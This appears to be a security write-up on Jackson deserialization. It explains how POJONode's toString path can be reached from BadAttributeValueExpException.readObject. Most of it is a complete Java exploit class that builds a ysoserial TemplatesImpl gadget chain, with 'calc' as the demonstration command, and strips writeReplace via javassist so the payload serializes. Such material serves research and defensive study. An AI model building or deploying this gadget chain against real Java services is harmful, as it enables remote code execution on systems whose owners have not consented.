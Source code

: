 # Jackson deserialization

## Analysis

In `Jackson`, we use the `ObjectMapper.writeValueAsString()` method to serialize the class to a json string, and use the 
`ObjectMapper.readValue()` method to deserialize the json string to the class. However, similar to `Fastjson`, `Jackson` contains the `ObjectMapper.enableDefaultTyping()` setting, which can support deserialization of specified classes. 

Meanwhile, the `Jackson` deserialization process will call the `setter` and `getter` methods of the object. Therefore, the POP chain of `Jackson` is consistent with the chain of `Fastjson`.

## Native deserialization

The `BaseJsonNode` class, which is the parent class of the `POJONode` class, has a `toString()` method. In that method, the `writeValueAsString()` method will be called. Therefore, we can trigger a deserialization vulnerability by calling the `toString()` method of the `POJONode` class from the `readObject()` method of the `BadAttributeValueExpException` class.

### Code

```java
import com.fasterxml.jackson.databind.node.POJONode;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtMethod;
import ysoserial.payloads.util.Gadgets;
import ysoserial.payloads.util.Reflections;

import javax.management.BadAttributeValueExpException;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;

public class Exp {
    public static void main(String[] args) throws Exception{
        Object template = Gadgets.createTemplatesImpl("calc");

        try {
            ClassPool pool = ClassPool.getDefault();
            CtClass jsonNode = pool.get("com.fasterxml.jackson.databind.node.BaseJsonNode");
            CtMethod writeReplace = jsonNode.getDeclaredMethod("writeReplace");
            jsonNode.removeMethod(writeReplace);
            ClassLoader classLoader = Thread.currentThread().getContextClassLoader();
            jsonNode.toClass(classLoader, null);
        } catch (Exception ignored) {
        }

        POJONode node = new POJONode(template);

        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        Field declaredField = badAttributeValueExpException.getClass().getDeclaredField("val");
        Reflections.setAccessible(declaredField);
        declaredField.set(badAttributeValueExpException, node);

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(badAttributeValueExpException);
    }
}
```

### Note

Here, we use the reflection to delete the `writeReplace()` method of the `BaseJsonNode` class, because this method is called during serialization and an exception will be thrown.